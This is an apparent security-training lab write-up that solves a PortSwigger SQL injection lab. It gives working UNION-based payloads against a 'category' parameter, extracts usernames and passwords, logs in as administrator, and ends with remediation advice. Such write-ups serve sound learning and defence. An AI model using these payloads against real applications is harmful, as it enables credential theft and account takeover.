







# Lab Writeup: SQL Injection UNION Attack — Retrieving Data from Other Tables

> **Platform:** PortSwigger Web Security Academy  
> **Category:** SQL Injection  
> **Difficulty:** Practitioner  
> **Status:** ✅ Solved  
> **Date:** April 2026  

---

## Overview

This lab demonstrates a UNION-based SQL injection attack that retrieves usernames and passwords from a separate `users` table. The results are visible in the application's response, making it possible to exfiltrate credentials and log in as the administrator.

**Objective:** Use a UNION attack to retrieve all usernames and passwords from the `users` table, then log in as `administrator`.



🧠 Attacker’s Approach

While testing the product category filter, I noticed that user input was being included directly in a SQL query.This suggested a possible SQL injection vulnerability.After confirming the injection, I focused on using a UNION-based attack to extract data from other tables in the database instead of just manipulating the query.

## Vulnerability Description

| Attribute | Detail |
|-----------|--------|
| **Vulnerability Type** | SQL Injection — UNION-based data exfiltration |
| **OWASP Category** | A03:2021 – Injection |
| **Injection Point** | `category` query parameter |
| **Target Table** | `users` (columns: `username`, `password`) |
| **Impact** | Full credential exfiltration, administrator account takeover |

---

## Tools Used

- **Burp Suite** – Repeater for request crafting
- **Browser** – PortSwigger lab environment

---

## Exploitation Steps

### Step 1 — Confirm Injection and Column Count

```
GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL--
```

`200 OK` confirms 2 columns.



---

### Step 2 — Confirm String Data Types

```
GET /filter?category=Gifts'+UNION+SELECT+'a','b'--
```

Both columns accept strings.



---

### Step 3 — Extract Usernames and Passwords

With two string columns matching the `username` and `password` columns in the `users` table:

```
GET /filter?category=Gifts'+UNION+SELECT+username,password+FROM+users--
```

All usernames and passwords are returned in the product listing.



---

### Step 4 — Identify Administrator Credentials

From the response, find the `administrator` entry and copy the password.



---

### Step 5 — Log In as Administrator

Navigate to the login page and enter:
- **Username:** `administrator`
- **Password:** (extracted from step 4)



---

### Step 6 — Lab Solved

Successfully logged in as administrator. Lab is marked as solved.



---

## Root Cause Analysis

```
Injected Query:
SELECT name, description FROM products 
WHERE category = 'Gifts' 
UNION SELECT username, password FROM users--

Result returned in response:
┌───────────────┬──────────────┐
│ username      │ password     │
├───────────────┼──────────────┤
│ administrator │ s3cur3pass!  │
│ wiener        │ peter        │
│ carlos        │ ...          │
└───────────────┴──────────────┘
```

---

## Remediation

| Recommendation | Description |
|----------------|-------------|
| **Parameterized Queries** | Completely prevents UNION injection |
| **Least Privilege** | DB user for the app should not have SELECT on the `users` table |
| **Hash Passwords** | Even if exfiltrated, hashed passwords are not immediately usable |
| **Input Validation** | Whitelist valid category values server-side |

---

## Key Takeaways

- **UNION attacks can reach any table in the database** the app's DB user has access to.
- **Credential tables are always the primary target** — once usernames and passwords are retrieved, the attacker gains account access.
- **The number and type of UNION columns must exactly match** the original query — always determine this first.
- **Hashing passwords is critical** — plaintext passwords in the DB mean immediate full compromise if SQL injection is found.

🌍 Real-World Scenario

In real-world applications, UNION-based SQL injection can expose entire databases, including user credentials and sensitive business data.

Attackers can use this information to:

Take over accounts
Escalate privileges
Perform further attacks on the system

🏁 Conclusion

This lab demonstrates how a SQL injection vulnerability can be escalated into a full data extraction attack using UNION queries. By carefully crafting payloads, it was possible to retrieve sensitive information from the database and compromise the application.


*Writeup produced as part of PortSwigger Web Security Academy lab practice.*
